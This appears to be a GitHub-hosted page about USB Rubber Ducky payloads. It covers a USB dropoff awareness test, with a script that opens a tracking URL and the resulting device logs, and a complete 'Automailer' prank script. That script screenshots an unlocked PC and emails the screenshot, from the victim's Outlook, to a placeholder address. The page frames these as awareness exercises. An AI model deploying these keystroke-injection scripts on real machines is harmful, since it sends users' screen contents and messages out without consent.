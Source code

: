 [Back to Main Page](../index.html) 

# Rubber Ducky

<img src="../img/banner_hackerblue.jpg" width="1000">

## Rubber Ducky Dropoff Attack

Recently we decided to test our employees by dropping off a modified Rubber Ducky outside of the building and creating awareness for such social attacks. The DuckyCode opens up a webpage.php, which tracks the device and logs it on logfile which has been placed on the webserver.

This is the uncompiled payload.

```
DELAY 1000
GUI r
DELAY 100
STRING https://company.tld/rubduck/link.php // insert link here
ENTER
```
  
After creating the payload we inject it on the USB, by placing the inject.bin in the root directory. A few days after dropping it off, we had the results we wanted to see:

```
2021-11-18 20:04:58: New RubberDucky initialisation detected from 192.168.1.105, 192.168.1.105
2021-11-18 20:05:45: New RubberDucky initialisation detected from 192.168.1.105, 192.168.1.105
2021-11-18 20:06:12: New RubberDucky initialisation detected from 192.168.1.105, 192.168.1.105
2021-11-18 20:06:31: New RubberDucky initialisation detected from 192.168.1.105, 192.168.1.105
2021-11-18 20:08:38: New RubberDucky initialisation detected from 192.168.1.105, 192.168.1.105
```

## Rubber Ducky Automailer Prank

To remind people to never keep their PC unlocked, I have created a second script for the RubberDucky. It allows me to plug the USB in an unlocked device, wait while it causes some mischief. The script snaps a screenshot, opens outlook, sends a message to various people with pre-configured text, adds screenshot and opens up a muted one hour rickroll youtube video once done. 

This configuration works a little better than most others you could find on github as it uses `outlook.exe /c ipm.note /m` instead of opening the outlook messenger somehow different.

```
REM Title:          Automailer
REM Author:	    Ratcode404
REM Description:    Snaps screen, opens outlook, sends a message to various people with pre-configured text, adds screenshot and opens up a muted 1 hour rickroll youtube video once done.

REM Default Delay (350 should be mid-speed)
DEFAULT_DELAY 350

REM Take screenshot
SHIFT WINDOWS S
DELAY 200
TAB
TAB
TAB
TAB
ENTER
DELAY 300

REM Open Outlook (Change E-Mail and text)
GUI r
DELAY 100
STRING outlook.exe /c ipm.note /m ratcode404@notarealmail.com?v=1&cc=ratcode405@notarealmail.com
ENTER
DELAY 500
STRING Subject goes here.
TAB
STRING Hello Ratcode!
ENTER 
STRING I like to leave my device unlocked and would want to invite you to some free dinner tonight.
ENTER
STRING xoxo

REM Paste Screenshot in Mail (CTRL V)
SHIFT INSERT
DELAY 200

REM Send Mail
ALT S
ENTER
DELAY 200

REM Rickroll, Mute and Fullscreen (Can adjust link obviously)
GUI r
DELAY 100
STRING https://www.youtube.com/watch?v=zL19uMsnpSU
ENTER
DELAY 300
M
DELAY 200
F
```
